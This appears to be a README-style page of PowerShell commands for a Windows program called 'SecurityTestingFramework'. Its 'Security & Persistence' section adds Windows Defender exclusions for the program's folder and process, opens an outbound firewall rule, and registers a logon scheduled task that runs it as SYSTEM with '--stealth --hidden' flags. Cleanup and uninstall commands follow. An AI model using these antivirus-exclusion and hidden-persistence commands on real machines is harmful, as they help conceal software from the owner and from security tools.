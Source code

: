 ### View Current Config
```powershell
Get-Content "$env:LOCALAPPDATA\SecurityTestingFramework\config\config.json" | ConvertFrom-Json | ConvertTo-Json
```

---

## 🔒 Security & Persistence

### Add Firewall Rules
```powershell
New-NetFirewallRule -DisplayName "STF-Out" -Direction Outbound `
    -Program "$env:LOCALAPPDATA\SecurityTestingFramework\SecurityTestingFramework.exe" -Action Allow
```

### Add Windows Defender Exclusion
```powershell
Add-MpPreference -ExclusionPath "$env:LOCALAPPDATA\SecurityTestingFramework"
Add-MpPreference -ExclusionProcess "SecurityTestingFramework.exe"
```

### Add Persistence (Scheduled Task)
```powershell
$action = New-ScheduledTaskAction -Execute "$env:LOCALAPPDATA\SecurityTestingFramework\SecurityTestingFramework.exe" -Argument "--stealth --hidden"
$trigger = New-ScheduledTaskTrigger -AtLogOn
$principal = New-ScheduledTaskPrincipal -UserId "SYSTEM" -LogonType ServiceAccount -RunLevel Highest
Register-ScheduledTask -TaskName "SecurityTestFramework" -Action $action -Trigger $trigger -Principal $principal -Force
```

---

## 🗑️ Cleanup & Uninstall

### Quick Uninstall
```powershell
Stop-Process -Name "SecurityTestingFramework" -Force -ErrorAction SilentlyContinue
Remove-Item "$env:LOCALAPPDATA\SecurityTestingFramework" -Recurse -Force
Unregister-ScheduledTask -TaskName "SecurityTestFramework" -Confirm:$false -ErrorAction SilentlyContinue
Remove-NetFirewallRule -DisplayName "STF*" -ErrorAction SilentlyContinue
```

### Complete Cleanup
```powershell
# Stop processes
Get-Process -Name "SecurityTestingFramework" -ErrorAction SilentlyContinue | Stop-Process -Force

# Remove files
Remove-Item -Path "$env:LOCALAPPDATA\SecurityTestingFramework" -Recurse -Force -ErrorAction SilentlyContinue
Remove-Item -Path "$env:USERPROFILE\Desktop\Security Testing Framework.lnk" -Force -ErrorAction SilentlyContinue

# Remove persistence
Unregister-ScheduledTask -TaskName "SecurityTestFramework" -Confirm:$false -ErrorAction SilentlyContinue
Remove-ItemProperty -Path "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "SecurityTestFramework" -ErrorAction SilentlyContinue
```